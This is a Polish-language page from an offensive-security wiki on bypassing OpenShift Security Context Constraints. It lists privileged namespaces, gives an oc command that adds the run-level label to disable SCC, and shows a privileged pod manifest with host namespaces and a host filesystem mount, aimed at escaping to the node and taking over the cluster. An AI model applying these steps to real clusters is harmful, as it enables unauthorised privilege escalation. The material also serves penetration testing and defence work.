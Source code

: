 # Openshift - SCC bypass

**Oryginalnym autorem tej strony jest** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

Domyślnie, SCC nie ma zastosowania w następujących projektach:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Jeśli wdrożysz pody w jednym z tych przestrzeni nazw, SCC nie będzie egzekwowane, co pozwala na wdrażanie uprzywilejowanych podów lub montowanie systemu plików hosta.

## Namespace Label

Istnieje sposób na wyłączenie zastosowania SCC na twoim podzie zgodnie z dokumentacją RedHat. Będziesz potrzebować przynajmniej jednego z następujących uprawnień:

- Utworzenie przestrzeni nazw i utworzenie poda w tej przestrzeni nazw
- Edytowanie przestrzeni nazw i utworzenie poda w tej przestrzeni nazw
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specyficzna etykieta `openshift.io/run-level` umożliwia użytkownikom obejście SCC dla aplikacji. Zgodnie z dokumentacją RedHat, gdy ta etykieta jest używana, żadne SCC nie są egzekwowane na wszystkich podach w danej przestrzeni nazw, skutecznie usuwając wszelkie ograniczenia.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj etykietę

Aby dodać etykietę w swojej przestrzeni nazw:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Aby utworzyć przestrzeń nazw z etykietą za pomocą pliku YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Teraz wszystkie nowe pody utworzone w przestrzeni nazw nie powinny mieć żadnego SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

W przypadku braku SCC nie ma żadnych ograniczeń dotyczących definicji twojego poda. Oznacza to, że złośliwy pod może być łatwo utworzony, aby uciec na system gospodarza.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Teraz łatwiej jest podnieść uprawnienia, aby uzyskać dostęp do systemu hosta, a następnie przejąć cały klaster, uzyskując uprawnienia 'cluster-admin'. Szukaj części **Node-Post Exploitation** na następującej stronie:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Niestandardowe etykiety

Ponadto, w zależności od docelowej konfiguracji, niektóre niestandardowe etykiety / adnotacje mogą być używane w ten sam sposób, co w poprzednim scenariuszu ataku. Nawet jeśli nie są do tego przeznaczone, etykiety mogą być używane do nadawania uprawnień, ograniczania lub niekoniecznie konkretnego zasobu.

Spróbuj poszukać niestandardowych etykiet, jeśli możesz odczytać niektóre zasoby. Oto lista interesujących zasobów:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Wypisz wszystkie uprzywilejowane przestrzenie nazw
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Zaawansowane wykorzystanie

W OpenShift, jak pokazano wcześniej, posiadanie uprawnień do wdrożenia poda w przestrzeni nazw z etykietą `openshift.io/run-level` może prowadzić do prostego przejęcia klastra. Z perspektywy ustawień klastra, ta funkcjonalność **nie może być wyłączona**, ponieważ jest inherentna dla projektu OpenShift.

Jednakże, środki łagodzące, takie jak **Open Policy Agent GateKeeper**, mogą zapobiec użytkownikom w ustawianiu tej etykiety.

Aby obejść zasady GateKeepera i ustawić tę etykietę w celu przejęcia klastra, **atakujący musieliby zidentyfikować alternatywne metody.**

## Odniesienia

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

